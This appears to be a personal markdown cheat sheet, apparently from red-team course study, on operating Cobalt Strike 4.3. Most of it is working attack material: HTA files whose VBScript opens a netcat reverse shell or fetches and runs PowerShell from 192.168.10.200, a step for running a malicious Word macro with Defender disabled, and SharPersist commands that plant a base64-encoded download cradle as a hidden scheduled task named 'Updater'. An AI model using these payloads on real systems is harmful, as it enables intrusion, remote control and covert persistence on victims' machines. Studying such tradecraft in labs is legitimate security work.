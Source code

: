 ### How to start cobalt strike 4.3 ?
1. First start team server `./teamserver <KALI IP> <some password> <some C2 malleable profile>`
2. First start team server `./teamserver 192.168.10.200 password123 havex.profile`
3. Then `./start.sh`

### Useful commands for CS 4.3?
1. Change beacon time `sleep <digit number>`
2. E.g Change beacon time to 02 seconds `sleep 2`
3. Run commands via cmd.exe `shell <some command>`
4. E.g `shell dir` or `shell whoami`

### .hta file execution (requres Internet Explorer) 01 - Simple Hello World
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>
</html>
```
### .hta file execution (requres Internet Explorer) 02 - Get reverse shell "console" is hidden
```
<html>
  <head>
    <title>Reverse Shell</title>
  </head>
  <body>
    <h2>get reverse shell on 192.168.10.200 at port 00</h2>
    <p>This is a HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      Shell.Run "cmd /c C:\Users\jon\Desktop\crtoStuff\nc.exe -e cmd.exe 192.168.10.200 200", 0, True
    End Function

    Pwn
  </script>
</html>
```
### .hta file execution (requres Internet Explorer) 03 - Get poweshell reverse shell
1. In CS navigate to **Attacks > Web Drive-by > Scripted Web Delivery (S) and generate a 64-bit PowerShell payload for HTTP listener**. The URI path can be anything for e.g I had it **/tempOld**. 
2. By default if we use **powershell.exe** instead of giving the full path its not going to laucnh. This is because we have a **64bit** powershell payload but **.hta** uses **32 bit mstha.exe**. However, we can fix it by specifiying the fullpath with **sysnative**
```
<html>
  <head>
    <title>PS Shell</title>
  </head>
  <body>
    <h2>get shell PS</h2>
    <p>This is a HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.exec "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
      ' This will fail -> shell.exec "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
    End Function

    Pwn
  </script>
</html>
```
### .hta file execution (requres Internet Explorer) 04 - Get poweshell reverse shell after checking the desired architecture
```
<html>
  <head>
    <title>PS Shell</title>
  </head>
  <body>
    <h2>get shell PS</h2>
    <p>This is a HTA...</p>
  </body>
  
  <script language="VBScript">
    Function Pwn()
  Set shell = CreateObject("wscript.Shell")
  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
  Else
    shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/tempOld'))"""
  End If
    End Function
    Pwn
  </script>
</html>

```

### .macro for MS Word
1. Generate a macro for MS WORD **Attacks -> Packages -> MS Office Macro**
2. Copy & Paste the macro in the MS Word document (remeber to use **.doc** not the **.docx**
3. Disable Defender and Run it, you'll get the beacon 

### Persistence for MS Windows via SharPersist
1. First generate the **x64 powershell** payload by **Attacks -> Web by Delivery -> Scripted Web Del (S)**
2. The above will generate a **PS payload, hosted on the CS TeamServer and will be run in memory**
3. E.g. it will be something like
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/64bit'))"
```
3. To avoid issues, Base64 it as following:
```
Linux: echo -en ""powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/64bit'))""" | iconv -t UTF-16LE | base64 -w 0
PS: [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('IEX ((new-object net.webclient).downloadstring("http://192.168.10.200:80/64bit"))'))
```
4. `SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBuAG8AcAAgAC0AdwAgAGgAaQBkAGQAZQBuACAALQBjACAASQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwAC4AMgAwADAAOgA4ADAALwA2ADQAYgBpAHQAJwApACkA" -n "Updater" -m add -o hourly`
5. `SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBuAG8AcAAgAC0AdwAgAGgAaQBkAGQAZQBuACAALQBjACAASQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwAC4AMgAwADAAOgA4ADAALwA2ADQAYgBpAHQAJwApACkA" -n "Updater" -m add -o logon`
